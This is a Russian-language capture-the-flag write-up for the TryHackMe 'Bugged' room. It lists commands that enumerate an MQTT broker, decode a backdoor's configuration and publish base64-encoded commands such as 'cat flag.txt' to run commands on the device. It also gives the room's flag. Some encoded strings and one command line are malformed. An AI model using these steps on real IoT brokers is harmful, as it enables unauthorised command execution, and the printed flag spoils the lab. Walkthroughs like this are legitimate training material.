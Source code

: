 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Bugged](https://tryhackme.com/r/room/bugged)

Всего 1 заданиe:
## Задание 1
Джон работал над своими умными бытовыми приборами, когда заметил странный трафик, проходящий по сети. Можете ли вы 
помочь ему выяснить, что это за странные сетевые коммуникации?

Примечание: полная загрузка машины может занять от 3 до 5 минут.
### Ответьте на вопросы ниже
Что такое флаг?
```commandline
sudo nmap -sV -sC <IP>
sudo apt-get install mosquitto mosquitto-clients -y
mosquitto_sub -t "#" -h <IP>
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==" | base64 -d
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP>
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "simple_massage" -h <IP>
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP>
echo "SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=" | base64 -d
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "e2lkOiAiY2RkMWIxYzDigJMxYzQw4oCTNGIwZi04ZTIy4oCTNjFiMzU3NTQ4YjdkIiwgY21kOiAiQ01EIiwgYXJnOiAibHMifQ==" -h <IP>
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP>
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbij9" | base64 -d
echo "{"id": "cdd1b1c0–1c40–4b0f-8e22–61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}" | base64
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "e2lkOiBjZGQxYjFjMOKAkzFjNDDigJM0YjBmLThlMjLigJM2MWIzNTc1NDhiN2QsIGNtZDogQ01E
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP>
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3suLi4uLi4uLi4ufSJ9" | base64 -d
```
```commandline
flag{18d44fc0707ac8dc8be45bb83db54013}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)